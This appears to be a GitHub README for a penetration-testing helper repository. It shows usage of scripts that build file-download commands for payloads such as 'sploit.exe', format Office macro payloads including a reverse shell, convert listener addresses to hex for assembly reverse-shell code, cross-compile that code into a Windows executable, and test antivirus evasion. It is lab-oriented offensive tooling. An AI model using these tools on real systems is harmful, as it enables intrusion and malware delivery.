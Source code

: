 # Scripts to help the `Pen-Test` process
## Download file request builder

Simple bash script to quickly format different ways to download a file.

![linux_example](https://i.imgur.com/n7XZ33p.png)

```bash
./download_builder.sh -h
./download_builder.sh
./download_builder.sh -f sploit.exe -lh 10.10.14.51 -o linux
./download_builder.sh -f sploit.exe -lh tun0 -o win -f uwu.exe -lp 80 -s corp_share
```

## Office Macro Template Builder

Simple bash script to quickly format Macro payloads. To help fit the Winodws `255` character limit.

![macro_example](https://i.imgur.com/5aifc95.png)

```bash
./build_macro_template.sh
./build_macro_template.sh -h
./build_macro_template.sh -f revshell.p1
./build_macro_template.sh -p "<payload-string>" -o 2
```

---

## How to cross compile Assembly code with `nasm` and `ld` code from my YouTube Video

### Format the LHOST and LPORT into the proper hex for the Assembly payload.

```python3
#!/usr/bin/python3
import socket
import struct
import argparse

option = argparse.ArgumentParser(description="Convert LHOST and LPORT Into there Valid Hex format for Assembly")
option.add_argument("-i","--ip_address", required=False, help="IPV4 Address or LHOST of the Revshell Listener", type=str, default="10.10.14.4")
option.add_argument("-p","--port_number", required=False, help="Port Number or LPORT of the Revshell Listener", type=int, default=8443)

args = option.parse_args()

def ipv4_to_hex(ip_address):
    # Convert the IPv4 address to packed binary format
    packed_ip = socket.inet_aton(ip_address)
    # Convert the packed binary format to hexadecimal and reverse the order of bytes
    hex_ip = struct.unpack("!I", packed_ip)[0]
    reversed_ip = int.from_bytes(hex_ip.to_bytes(4, 'big'), 'little')
    return reversed_ip

def port_to_hex(port):
    # Convert port number to hexadecimal and reverse the order of bytes
    hex_port = struct.pack("!H", port)
    reversed_port = int.from_bytes(hex_port, 'little')
    return reversed_port

hex_ip = ipv4_to_hex(args.ip_address)
hex_port = port_to_hex(args.port_number)

print(f"IP Address: {args.ip_address} -> Hex-Flip: 0x{hex_ip:X}")
print(f"Port: {args.port_number} -> Port-Flip: 0x{hex_port:X}")
```

### Compile with `nasm` and `ld`

```bash
#!/bin/bash
# ./lin_to_win_compile_exe.sh filename.asm
file=$1
nasm -f win32 $file -o 1_obj.o &&  ld -m i386pe 1_obj.o -o z_rev.exe
```

```bash
#!/bin/bash
# ./rawbuild.sh filename.asm
file=$1
nasm -f win32 -o out.obj $file
objcopy -O binary out.obj just_raw.bin
```

* Get all the supported `nasm` formats with `nasm -h` help menu!

## Heap_Ratoon Script From My Youtube Video: 

```
How To Test/Verify Anti Virus Evasion Techniques Without Burning Them.
heap_ratoon_v2_fail.sh
```
